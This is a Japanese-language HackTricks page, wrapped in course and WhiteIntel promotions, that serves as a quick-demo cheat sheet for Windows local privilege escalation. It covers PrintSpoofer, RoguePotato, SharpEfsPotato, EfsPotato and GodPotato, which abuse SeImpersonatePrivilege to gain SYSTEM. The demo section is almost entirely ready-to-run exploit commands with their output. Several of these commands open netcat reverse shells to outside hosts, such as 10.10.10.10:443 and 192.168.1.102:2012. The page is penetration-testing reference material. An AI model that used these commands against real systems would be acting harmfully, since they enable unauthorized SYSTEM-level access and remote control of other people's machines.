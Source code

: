 # RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) は、**ダークウェブ** によって駆動される検索エンジンで、企業やその顧客が **stealer malwares** によって **侵害** されているかどうかを確認するための **無料** 機能を提供します。

WhiteIntel の主な目標は、情報を盗むマルウェアによるアカウント乗っ取りやランサムウェア攻撃と戦うことです。

彼らのウェブサイトをチェックして、**無料** でエンジンを試すことができます:

{% embed url="https://whiteintel.io" %}

***

{% hint style="warning" %}
**JuicyPotatoは** Windows Server 2019 および Windows 10 build 1809 以降では動作しません。しかし、 [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**、** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**、** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**、** [**GodPotato**](https://github.com/BeichenDream/GodPotato)**、** [**EfsPotato**](https://github.com/zcgonvh/EfsPotato)**、** [**DCOMPotato**](https://github.com/zcgonvh/DCOMPotato)** は、**同じ特権を利用して `NT AUTHORITY\SYSTEM`** レベルのアクセスを取得するために使用できます。この [ブログ記事](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) は、JuicyPotato がもはや動作しない Windows 10 および Server 2019 ホストでの偽装特権を悪用するために使用できる `PrintSpoofer` ツールについて詳しく説明しています。
{% endhint %}

## Quick Demo

### PrintSpoofer
```bash
c:\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```
### RoguePotato

{% code overflow="wrap" %}
```bash
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999
```
{% endcode %}

### SharpEfsPotato
```bash
> SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
SharpEfsPotato by @bugch3ck
Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/c56e1f1f-f91c-4435-85df-6e158f68acd2/\c56e1f1f-f91c-4435-85df-6e158f68acd2\c56e1f1f-f91c-4435-85df-6e158f68acd2
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\temp>type C:\temp\w.log
nt authority\system
```
### EfsPotato
```bash
> EfsPotato.exe "whoami"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: NT Service\MSSQLSERVER
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=aeee30)
[+] Get Token: 888
[!] process with pid: 3696 created.
==============================
[x] EfsRpcEncryptFileSrv failed: 1818

nt authority\system
```
### GodPotato
```bash
> GodPotato -cmd "cmd /c whoami"
# You can achieve a reverse shell like this.
> GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
### DCOMPotato

![image](https://github.com/user-attachments/assets/a3153095-e298-4a4b-ab23-b55513b60caa)


## 参考文献

* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
* [https://github.com/bugch3ck/SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato)
* [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
* [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)
* [https://github.com/zcgonvh/DCOMPotato](https://github.com/zcgonvh/DCOMPotato)

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) は、**ダークウェブ** によって駆動される検索エンジンで、企業やその顧客が **スティーラーマルウェア** によって **侵害された** かどうかを確認するための **無料** 機能を提供しています。

WhiteIntel の主な目標は、情報を盗むマルウェアによるアカウント乗っ取りやランサムウェア攻撃と戦うことです。

彼らのウェブサイトを確認し、**無料** でエンジンを試すことができます：

{% embed url="https://whiteintel.io" %}

{% hint style="success" %}
AWS ハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP ハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**テレグラムグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を送信してください。**

</details>
{% endhint %}
